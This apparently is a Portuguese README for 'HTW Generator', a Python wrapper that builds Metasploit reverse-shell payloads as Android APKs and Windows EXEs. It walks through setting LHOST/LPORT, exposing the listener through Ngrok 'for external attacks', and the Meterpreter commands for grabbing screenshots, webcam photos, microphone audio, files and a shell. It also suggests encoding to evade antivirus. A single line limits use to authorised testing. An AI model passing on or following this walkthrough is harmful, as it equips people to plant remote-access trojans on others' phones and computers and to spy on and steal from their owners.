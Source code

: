 Como Iniciar:

Execute o programa com o comando:
python3 htw.py

Você verá um menu colorido com as seguintes opções:

Quick Setup (configuração rápida)

Custom (configuração manual)

Sair

Modo Quick Setup (Recomendado para Iniciantes):

Selecione a opção 01

Escolha o tipo de payload:

Digite 1 para Android (gera arquivo .apk)

Digite 2 para Windows (gera arquivo .exe)

Informe um nome para o arquivo de saída (ex: payload.apk)

A ferramenta irá gerar automaticamente o payload com as configurações padrão (LHOST=localhost, LPORT=4444)

Modo Custom (Para Usos Avançados):

Selecione a opção 02

Configure manualmente:

LHOST: IP do seu servidor (para rede local use seu IP interno, para internet use Ngrok)

LPORT: Porta que será usada para a conexão

Nome do arquivo de saída

A ferramenta gerará o payload e iniciará automaticamente o listener no Metasploit

Usando com Ngrok (Para Ataques Externos):

Em um terminal separado, inicie o Ngrok com:
./ngrok tcp 4444

Anote o endereço gerado (ex: tcp://0.tcp.sa.ngrok.io:12345)

No HTW Generator:

Use o domínio do Ngrok como LHOST (0.tcp.sa.ngrok.io)

Use a porta do Ngrok como LPORT (12345)

Comandos Úteis no Meterpreter:
Após estabelecer a conexão, você pode usar:

screenshot - Captura a tela do dispositivo

webcam_snap - Tira foto pela webcam

record_mic - Grava áudio do microfone

download - Baixa arquivos do alvo

upload - Envia arquivos para o alvo

shell - Acessa o terminal do dispositivo

Importante:

Esta ferramenta deve ser usada apenas para testes de segurança autorizados

Mantenha o Ngrok rodando enquanto estiver esperando a conexão

Para bypass de antivírus, considere usar técnicas de encoding ou embedding

Suporte:
Para dúvidas ou problemas, consulte:

GitHub: github.com/CipherShadow082

Telegram: t.me/CipherShadow08
